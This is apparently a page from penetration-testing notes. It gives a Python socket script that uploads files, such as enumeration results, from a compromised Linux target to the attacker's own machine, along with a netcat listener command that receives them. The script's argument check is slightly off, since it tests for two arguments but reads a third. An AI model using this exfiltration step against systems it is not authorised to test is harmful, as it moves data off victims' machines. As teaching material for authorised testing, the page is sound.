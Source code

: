 ## Python
```default
              .::::::::::.               
            .::``::::::::::.             
            :::..:::::::::::             
            ````````::::::::             
    .::::::::::::::::::::::: iiiiiii,    
 .:::::::::::::::::::::::::: iiiiiiiii.  
 ::::::::::::::::::::::::::: iiiiiiiiii  
 ::::::::::::::::::::::::::: iiiiiiiiii  
 :::::::::: ,,,,,,,,,,,,,,,,,iiiiiiiiii  
 :::::::::: iiiiiiiiiiiiiiiiiiiiiiiiiii  
 `::::::::: iiiiiiiiiiiiiiiiiiiiiiiiii`  
    `:::::: iiiiiiiiiiiiiiiiiiiiiii`     
            iiiiiiii,,,,,,,,             
            iiiiiiiiiii''iii             
            `iiiiiiiiii..ii`             
              `iiiiiiiiii`               
```

### Upload files

Maybe the target is a Linux machine. You can download files via HTTP and curl/wget, but how do you upload the results of your enum script?

Well if Python is installed, then you can just use this simple script:

```python
#!/usr/bin/python
# U+0A75
import socket
import sys
if (len(sys.argv) < 2):
    print("params: <ip> <filename>")
    print("listen port is 4545")
    sys.exit(0)
target = sys.argv[1]
filename = sys.argv[2]
s = socket.socket()
s.connect((target, 4545))
f = open (filename, "rb")
l = f.read(1024)
while (l):
    s.send(l)
    l = f.read(1024)
s.close()
```

On your own machine start a netcat listener:

```bash
nc -vlnp 4545 > file_output.txt
```
